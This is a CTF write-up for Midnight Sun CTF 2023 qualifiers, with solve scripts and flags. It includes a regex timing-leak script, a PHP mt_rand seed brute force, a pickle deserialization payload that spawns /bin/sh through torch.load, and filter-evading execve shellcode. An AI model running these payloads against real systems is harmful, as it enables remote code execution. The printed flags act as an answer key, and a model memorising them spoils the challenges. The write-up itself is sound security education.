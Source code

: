 # Midnight Sun CTF 2023 Quals
###### tags: `CTF`

## web
### matchmaker

time based leaking flag

```python
import requests
import string
from tqdm import tqdm

charset = string.ascii_letters + string.digits + "{}_'!,="

url = "http://matchmaker-2.play.hfsc.tf:12345/?x="

flag = "midnight{"

for i in tqdm(range(30)):
    stats = [0 for _ in range(len(charset))]
    for c in charset:
        res = requests.get(f"{url}^{flag}{c}{'(.*)'*2000}$")
        time = float(res.text.split("</strong>")[1].split("<br />")[0])
        stats[charset.index(c)] = time

    maxi = -1
    max = -1
    for i,s in enumerate(stats):
        if(s > max):
            max = s
            maxi = i
    flag += charset[maxi]
    print(flag)
    if(flag[-1] == '}'):
        break
```

`midnight{r3gExpErt153_1n_m47Chm4K1ng}`

## Crypto
### fact check

use IDA to reverse this golang binary

found weird string `s0me0ne_sh0u1d_f4cT_cH3ck_tH3s3_AIs`

`midnight{s0me0ne_sh0u1d_f4cT_cH3ck_tH3s3_AIs}`

### Mt. Random

the char of the flag is used as the seed of random generator

the generator will generator the number between `min` ~ `max` and will prevent the number inside the range `gap_start` ~ `gap_end - 1`. All the params is unknown

we can requests many times and make a statistics, than we will find the param as follow:

```
$min = 1;
$max = 256;
$gap_start = 100;
$gap_end = 150;
```

statistics script:

```python
import requests
from tqdm import tqdm

stats = [0 for _ in range(260)]

for i in tqdm(range(20)):
    res = requests.get("http://mtrandom-1.play.hfsc.tf:51237/?generate_samples=1")
    data = res.json()["samples"]
    for d in data:
        stats[d] += 1

for i,s in enumerate(stats):
    print(i, s)
```

first, we can find the common seed by scanning range 0 ~ 10000. Then we can scan each char one-by-one in the range 0x30 ~ 0x80

```php
<?php
function non_continuous_sample($min, $max, $gap_start, $gap_end) {
    $rand_num = mt_rand($min, $max - ($gap_end - $gap_start));
    if ($rand_num >= $gap_start) {
        $rand_num += ($gap_end - $gap_start);
    }
    return $rand_num;
}

$min = 1;
$max = 256;
$gap_start = 100;
$gap_end = 150;

$flag = "midnight{";
$flagnum = [];
foreach (str_split($flag) as $char) {
    $flagnum[] = ord($char);
}

// $sample = [241,3,36,165,3,89,96,170,199,241,174,165,36,82,170,96,160,82,89,97,2,51];
$sample = [15,84,189,77,84,39,218,38,253,15,170,77,189,219,38,218,55,219,39,186,33,74];
for ($seed=0; $seed < 10000; $seed++) { 
    # code...
    $i = 0;
    for (; $i < count($flagnum); $i++) {
        # code...
        mt_srand($seed + $flagnum[$i]);
        if(non_continuous_sample($min, $max, $gap_start, $gap_end) != $sample[$i])
        {
            break;
        }
    }
    if($i == count($flagnum))
    {
        echo $seed . "\n";
        for($ct=count($flagnum); $ct < count($sample); $ct++)
        {
            for($num=48; $num<128; $num++)
            {
                mt_srand($seed + $num);
                if(non_continuous_sample($min, $max, $gap_start, $gap_end) == $sample[$ct])
                {
                    $flag .= chr($num);
                    echo $flag . "\n";
                    break;
                }
            }
        }
        break;
    }
}

?>
```

`midnight{m1nd_th3_g4p}`

## PWN
### MemeControl

it use torch.load to load pytorch model

in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load), it will use pickle as the default packer to unpack, so pickle deserialization vulnerability may existed

exploit generate script:

```python
import os
import pickle
import base64

class RCE:
    def __reduce__(self):
        return os.system, ("/bin/sh",)

pk = pickle.dumps(RCE())
# pickle.loads(pk)

print(base64.b64encode(pk))
```

`midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}`

## speed
### SPD A

input shellcode, but cannot has `/`, `\x00`, `sh`, `bin`

it can bypass `sh`, `bin` by `or` and `shift`

for `/`, it can bypass by `ord(/) - 1` and `inc`

shellcode:
```
payload = asm("xor rax, rax")
payload += asm("mov al, 0x3b")
payload += asm("xor rbx, rbx")
payload += asm(f"mov bl, {hex(ord('h'))}")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('s'))}")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('/') - 1 )}")
payload += asm(f"inc rbx")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('n'))}")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('i'))}")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('b'))}")
payload += asm("shl rbx, 8")
payload += asm(f"or rbx, {hex(ord('/') - 1 )}")
payload += asm(f"inc rbx")
payload += asm("push rbx")
payload += asm("mov rdi, rsp")
payload += asm("xor rsi, rsi")
payload += asm("xor rdx, rdx")
payload += asm("syscall")
```

`midnight{344b789f412e8b19618a1449a50622dd}`

## Misc
### sanity

copy and paste

`midnight{Ar3_U_Sm4rt3r_Then_AI?}`

### whistle

gcode

https://ncviewer.com/

following the route, deleting some `redacted` word

`midnight{router_hacking?}`